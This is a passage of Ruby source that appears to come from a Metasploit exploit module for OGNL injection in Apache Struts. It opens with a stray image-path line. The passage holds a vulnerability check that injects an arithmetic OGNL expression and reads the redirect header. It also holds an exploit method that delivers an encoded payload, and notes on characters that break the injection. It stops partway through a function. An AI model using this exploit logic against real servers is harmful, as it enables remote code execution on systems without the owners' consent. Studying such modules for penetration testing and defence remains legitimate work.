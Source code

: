           # METHOD 2: Generate two random numbers, ask the target to add them together.
          #   If it does, it's vulnerable.
          a = rand(10000)
          b = rand(10000)
          c = a+b

          ognl = "#{a}+#{b}"

          resp = send_struts_request(ognl)

          if resp.headers['Location'].include? c.to_s
            vprint_status("Redirected to:  #{resp.headers['Location']}")
            print_status("Target does *not* require enabling 'allowStaticMethodAccess'.  Setting ENABLE_STATIC to 'false'")
            datastore['ENABLE_STATIC'] = false
            CheckCode::Vulnerable
          else
            CheckCode::Safe
          end
        end
      end

      def exploit
        case payload.arch.first
        when ARCH_CMD
          resp = execute_command(payload.encoded)
        else
          resp = send_payload()
        end
      end

      def encode_ognl(ognl)
        # Check and fail if the command contains the follow bad characters:
        #   ';' seems to terminates the OGNL statement
        #   '/' causes the target to return an HTTP/400 error
        #   '\' causes the target to return an HTTP/400 error (sometimes?)
        #   '\r' ends the GET request prematurely
        #   '\n' ends the GET request prematurely
